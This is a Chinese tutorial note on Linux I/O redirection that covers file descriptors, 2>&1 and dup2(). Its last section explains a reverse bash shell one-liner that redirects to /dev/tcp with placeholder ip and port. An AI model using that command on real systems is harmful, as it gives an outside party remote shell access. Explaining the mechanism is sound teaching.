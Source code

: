 > I/O重定向基础知识为文件描述符

![webp](https://upload-images.jianshu.io/upload_images/2322338-e9e60a745921ba84.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/700/format/webp)
文件描述符是文件描述表的下标，文件描述表中存的指向文件结构体的指针。
```
struct fd { 
     struct file *file;//指向文件表的指针 
     unsigned int flags; 
    };
```
而standin，standout，standerr就是三个FILE *指针
```
FILE* stdin
FILE* stdout
FILE* stderr
```
上述代码对应上表，`unsigned int flags; `就是`fd flags`，而`file *file`则是`file ptr`，而在linux里，`flags`只有一个值`close-on-exec`，即`FD_CLOEXEC`
## 重定向
```
2>&1
```
在重定向前，是这样的：

![8bbdb068-98af-4e16-ac68-13f6b9f14d52.png](linux I-O重定向_files/8bbdb068-98af-4e16-ac68-13f6b9f14d52.png)

重定向之后，是这样的：

![61d2f081-841b-4faf-bac5-861ef904c67e.png](linux I-O重定向_files/61d2f081-841b-4faf-bac5-861ef904c67e.png)

这是因为`2>&1`是通过`dup2()`这个系统调用实现的。

**int dup2(int oldfd, int newfd); **:
```
dup2() create a copy of the file descriptor oldfd. After a successful return from dup() or dup2(), the old and new file descriptors may be used interchangeably. They refer to the same open file description (see open(2)) and thus share file offset and file status flags; for example, if the file offset is modified by using lseek(2) on one of the descriptors, the offset is also changed for the other.
```
`dup2()`和`dup()`都是复制一个现存的文件描述符(新的复制老的)，然后指向相同的文件结构体，但是flags不同，因为新的上会被关闭。
> 这儿关于dup2()的实现推荐一个文章[Linux内核分析：dup、dup2的实现](https://www.cnblogs.com/lit10050528/p/6206235.html)，源码非常清楚了，把老的指针复制(赋值)给新的

找到一个非常漂亮的图
![164957289.png](http://blog.51cto.com/attachment/201211/164957289.png)
## 反弹bash
```
bash > /dev/tcp/ip/port 0<&1
```
先是`standout`重定向到`/dev/tcp/ip/port`，接着`standin`的再被复制成`standout`
> 这儿说的standin,standout并非是指针，而是0,1的默认名称

|Handle|Name|Description|
| - | - | - |
|0|stdin|标准输入|
|1|stdout|标准输出|
|2|stderr|标准错误输出|
